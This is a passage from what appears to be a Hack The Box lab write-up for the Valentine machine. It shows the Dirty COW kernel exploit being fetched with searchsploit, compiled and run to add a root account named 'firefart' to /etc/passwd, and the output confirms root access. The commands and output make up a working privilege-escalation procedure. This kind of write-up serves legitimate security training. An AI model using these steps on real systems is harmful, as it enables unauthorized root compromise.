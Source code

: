 
After looking over a few, selected one that would add a root user to the
passwd file:

    
    
    root@kali# searchsploit -m exploits/linux/local/40839.c
      Exploit: Linux Kernel 2.6.22 < 3.9 - 'Dirty COW' 'PTRACE_POKEDATA' Race Condition Privilege Escalation (/etc/passwd Method)
          URL: https://www.exploit-db.com/exploits/40839/
         Path: /usr/share/exploitdb/exploits/linux/local/40839.c
    File Type: C source, ASCII text, with CRLF line terminators
    
    Copied to: ~/hackthebox/valentine-10.10.10.79/40839.c
    

Uploaded to the box, compile, and run:

    
    
    hype@Valentine:/dev/shm$ gcc -pthread dc.c -o c -lcrypt
    
    hype@Valentine:/dev/shm$ file c
    c: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0xe2dea237b60ba9dc122a44d0505f9796b0b8a159, not stripped
    hype@Valentine:/dev/shm$ chmod +x c
    hype@Valentine:/dev/shm$ ./c
    /etc/passwd successfully backed up to /tmp/passwd.bak
    Please enter the new password:
    Complete line:
    firefart:fifdjzBMn8d5E:0:0:pwned:/root:/bin/bash
    
    mmap: 7f004ef9b000
    
    
    hype@Valentine:/dev/shm$ su firefart
    Password:
    
    firefart@Valentine:/dev/shm# id
    uid=0(firefart) gid=0(root) groups=0(root)
    

[](/2018/07/28/htb-valentine.html)

